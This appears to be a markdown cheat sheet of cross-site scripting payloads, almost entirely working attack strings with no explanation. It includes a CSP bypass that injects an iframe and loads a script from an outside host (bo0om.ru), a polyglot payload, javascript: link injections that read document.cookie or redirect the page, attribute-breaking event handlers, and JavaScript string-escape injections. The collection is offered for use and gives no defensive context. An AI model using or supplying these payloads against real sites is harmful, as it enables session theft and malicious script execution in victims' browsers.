 # XSS PAYLOAD [PAYLOAD.txt](https://github.com/zerbaliy3v/0xpayload/blob/main/All-XSS-Payload/payload.txt)


### CSP BYPASS:

    <script>f=document.createElement("iframe");f.id="pwn";f.src="/robots.txt";f.onload=()=>{x=document.createElement('script');x.src='//bo0om.ru/csp.js';pwn.contentWindow.document.body.appendChild(x)};document.body.appendChild(f);</script>


### POLYGLOT:

    javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>


### HYPERLINK TAG INJECTION:

    javascript:alert(1)
    
    javascript://%250Aalert(document.location="https://google.com",document.location="https://www.facebook.com")
    
    javascript://%250Aalert(document.cookie)
    
    javascripT://https://google.com%0aalert(1);//https://google.com
    
    /x:1/:///%01javascript:alert(document.cookie)/


### INLINE HTML INJECTION WITHOUT TAG BREAK:
  
      " onclick=alert(1)//">click
      
      " autofocus onfocus=alert(1) "
      
      " onfocus=prompt(1) autofocus fragment="
      
      " onmouseover="confirm(1)"style="position:absolute;width:100%;height:100%;top:0;left:0;"


### JAVASCRIPT INJECTION:

    '?prompt`1`?'
    
    "])},alert(1));(function xss() {//
    
    ""});});});alert(1);$('a').each(function(i){$(this).click(function(event){x({y
    
    "}]}';alert(1);{{'
    
    11111';\u006F\u006E\u0065rror=\u0063onfirm; throw'1
    
    \');confirm(1);//
    
    x");$=alert, $(1);//
    
    '|alert(1)|'
    
    '*prompt(1)*'
    
    "; ||confirm('XSS') || "
    
    "-alert(1)-"
    
    \'-alert(1)};{//
    
    "'-alert(1)-'"
    
    \u0027-confirm`1`-\u0027 
    
    '}};alert(1);{{'



### xss payload

url: [https://portswigger.net/web-security/cross-site-scripting/cheat-sheet](https://portswigger.net/web-security/cross-site-scripting/cheat-sheet)

👽
